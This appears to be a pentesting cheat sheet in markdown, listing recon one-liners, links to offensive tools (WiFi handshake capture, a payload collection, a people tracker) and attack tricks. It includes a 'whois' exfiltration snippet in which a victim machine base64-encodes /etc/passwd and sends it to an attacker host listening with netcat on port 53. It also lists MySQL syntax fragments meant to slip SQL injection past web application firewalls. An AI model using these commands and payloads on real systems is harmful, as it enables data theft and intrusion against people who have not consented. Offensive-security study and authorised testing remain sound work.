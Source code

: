 # Commands | snippets | utilitaries helpers for pentesting

# Links

> Hashcatch – a script to capture handshakes of nearby WiFi networks
[Hashcatch - github](https://github.com/staz0t/hashcatch)

> Payloads and bypasses for various WebApp attacks
[Github link](https://github.com/swisskyrepo/PayloadsAllTheThings)

# Linux

```bash
# Onliner to get links from the target itself
for h in $(cat hosts.txt); do curl -siL https://$h|sed -n -E "s/.*<.*(href|src|url)[=:]['\"]?([^'\">]+).*/\2/p" ; done
```

```bash
# Onliner to get subdomains and related from the target itself
for h in $(cat hosts.txt); do curl -siL https://$h|egrep -io  "[0-9a-z_\-\.]+\.([0-9a-z_\-]+)?`echo $h|awk -F '.' '{print $(NF-1)}'`([0-9a-z_\-\.]+)?\.[a-z]{1,5}"|sort -fu ; done
```

```bash
# Have limited ways to exfiltrate data ? Use Whois!
attacker: nc -l -v -p 53 | sed "s/ //g" | base64 -d

victim: whois -h $attackerIP -p 53 cat /etc/passwd | base64
```

# Windows

# Tricks

## MySQL trick to break some WAFs

```
SELECT-1e1FROM`test`
SELECT~1.FROM`test`
SELECT\NFROM`test`
SELECT@^1.FROM`test`
SELECT-id-1.FROM`test`
```

# OSINT

> People tracker on the internet
[Github link](https://github.com/jofpin/trape)
